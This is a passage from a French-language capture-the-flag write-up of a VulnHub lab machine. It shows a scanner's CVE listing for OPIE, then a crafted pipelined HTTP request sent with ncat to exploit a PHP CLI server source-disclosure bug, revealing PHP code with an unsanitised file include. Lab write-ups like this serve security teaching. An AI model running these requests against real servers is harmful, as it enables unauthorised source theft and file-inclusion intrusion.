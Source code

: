 ```
|     IDs:  BID:40403  CVE:CVE-2010-1938
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       An off-by-one error in OPIE library 2.4.1-test1 and earlier, allows remote
|       attackers to cause a denial of service or possibly execute arbitrary code
|       via a long username.
|     Disclosure date: 2010-05-27
|     References:
|       http://security.freebsd.org/advisories/FreeBSD-SA-10:05.opie.asc
|       https://www.securityfocus.com/bid/40403
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1938
|_      http://site.pi3.com.pl/adv/libopie-adv.txt
```

## PHP exploitation 101

Comme ce CTF est certainement fait sur la même distribution que le CTF [Sunset: Dusk]({% link _posts/2023-04-04-Solution-du-CTF-Sunset-Dusk-de-VulnHub.md %}) du même auteur et avec la même version des outils, j'utilise la faille de source disclosure qui touche PHP CLI.

Jetons un œil au code servi sur le port 8593 :

```console
$ echo -e "GET /index.php HTTP/1.1\r\nHost: pd.research\r\n\r\nGET /xyz.xyz HTTP/1.1\r\n\r\n" | ncat 192.168.56.163 8593 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.163:8593.
HTTP/1.1 200 OK
Host: pd.research
Date: Sat, 08 Apr 2023 16:29:16 GMT
Connection: close
Content-Type: chemical/x-xyz
Content-Length: 499

<?php
session_start();
?>
<html>
    <head>
        <link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 
        <link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page</a>
            <a href="index.php?book=list">Book List</a>
        </div>
<?php
        echo "We are still setting up the library! Try later on!";
        echo "<p>";
        include("/var/www/html/server/" . $_GET['book']);
        echo "</p>";
?>
    </body>
</html>
Ncat: 72 bytes sent, 644 bytes received in 0.20 seconds.
```
